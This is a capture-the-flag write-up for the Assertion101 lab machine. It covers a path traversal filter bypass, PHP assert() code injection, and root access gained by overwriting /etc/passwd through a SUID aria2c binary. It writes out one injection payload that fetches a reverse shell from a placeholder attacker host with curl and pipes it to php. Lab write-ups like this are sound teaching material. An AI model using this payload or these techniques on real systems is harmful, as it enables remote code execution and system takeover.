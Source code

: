 # Assertion101

## Background

> Are you ready to assert yourself?

- Author: [Faisal Husaini](https://www.vulnhub.com/entry/assertion-1,495/)

- Released on: Sep 16, 2020

- Difficulty: Intermediate

> Overall difficulty for me: Medium

# Service Enumeration

As usual, scan the machine for open ports via `rustscan`!

**Rustscan Result:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a1.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a2.png)

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.6p1
80                | Apache httpd 2.4.29

## HTTP on Port 80

Always check the web server first, as it has the largest attack vectors.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a3.png)

The `index.php` might suffers path traversal? Let's test it out:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a4.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a5.png)

Looks like there is some sort of filter going on.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a6.png)

Maybe it's blocking `.` to prevent path traversal.

How about using URL encoding to bypass the filter?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a7.png)

Nope. How about double URL encoding?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a8.png)

Looks like it's bypassed?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a9.png)

Hmm... Weird. It should bypassed and could fetch `/etc/passwd`'s content.

At this moment, I'm stucked. Then I started to think the title of this machine is somewhat related to the path traversal. Let's google "assertion local file inclusion".

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a10.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a11.png)

Wow! I never know PHP `assert()` function is vulnerable to Local File Inclusion(LFI)! Let's test it to the target machine!

> Note: Mohamed F. did a great job explaining [this vulnerability](https://www.linkedin.com/pulse/php-assert-vulnerable-local-file-inclusion-mohamed-fakroud)!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a12.png)

Yes!! We now have LFI! Next step is to gain an initial foothold to the target system.

# Initial Foothold

Since we can execute any remote code to the target machine, we can leverage this to gain an initial foothold.

To do so, I'll first host a PHP reverse shell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a13.png)

Then, we can use `curl`, pipe (`|`) and `php` to establish a reverse shell to us: (This is similar to PowerShell downloadstring trick.)

**Payload:**
```bash
http://192.168.129.94/index.php?page='.system("curl http://YOUR_IP/revshell.php | php").'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a14.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a15.png)

We're `www-data`!

**Stable Shell via `socat`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a16.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a17.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a18.png)

**local.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a19.png)

# Privilege Escalation

## www-data to root

**SUID:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a20.png)

Weird binary with SUID bit set: `/usr/bin/aria2c`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a21.png)

It's owned by root! Let's investgate what is it!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a22.png)

Looks like [GTFOBins](https://gtfobins.github.io/gtfobins/aria2c/) could found something interesting:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a23.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a24.png)

But it's not working. :(

Maybe this machine don't have outbound connection, so it doesn't work?? Anyway, let's try another method.

As I dig deeper to the `aria2c` binary, I found that the `-i` option also could read files.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a25.png)

Let's try reading `/etc/shadow`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a26.png)

I could read `/etc/shadow`, but all the hashes are uncrackable.

How about overwriting a file? Like `/etc/passwd`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a27.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a28.png)

Maybe?? Let's give it a shot.

First, copy and paste the `/etc/passwd`'s contents to the attacker machine:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a29.png)

Then, add a new user with root privilege:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a30.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a31.png)

Finally, overwrite the original `/etc/passwd` in the target machine:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a32.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a33.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a34.png)

YES!! We now can Switch User to the newly created user!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a35.png)

And we're root! :D

# Rooted

**proof.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Assertion101/images/a36.png)

# Conclusion

What we've learned:

1. Path Traversal Filter Bypass
2. Local File Inclusion via `assert()` Function in PHP
3. Privilege Escalation via `aria2c` SUID Bit Set, Overwriting `/etc/passwd`